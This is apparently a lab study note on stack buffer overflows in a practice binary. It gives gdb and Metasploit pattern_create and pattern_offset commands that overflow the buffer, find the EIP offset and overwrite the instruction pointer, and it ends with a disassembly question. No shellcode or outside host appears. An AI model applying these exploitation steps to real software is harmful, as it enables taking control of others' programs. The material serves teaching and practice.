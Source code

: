 | 32-bit Register | 64-bit Register | Description                                                                                             |
| --------------- | --------------- | ------------------------------------------------------------------------------------------------------- |
| EIP             | RIP             | Instruction Pointer stores the offset address of the next instruction to be executed                    |
| ESP             | RSP             | Stack Pointer points to the top of the stack                                                            |
| EBP             | RBP             | Base Pointer is also known as Stack Base Pointer or Frame Pointer thats points to the base of the stack |

## Take control of EIP

```bash
gdb -q bow32
run $(python -c "print '\x55' * 1200")
info registers
```

You overwrite EIP register.

<figure><img src="../../../.gitbook/assets/buffer_overflow_2.png" alt=""><figcaption></figcaption></figure>

## Determine the offset

Create a shellcode with metasploit

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
cat pattern.txt
​
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 
info registers eip
```

Grab the EIP data output and run another metaploit shellcode.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

## Questions

1. At which address in the "main" function is the "bowfunc" function gets called?

```bash
gdb

(gdb) set disassembly-flavor intel
(gdb) file bow
(gdb) disassemble main
```

\
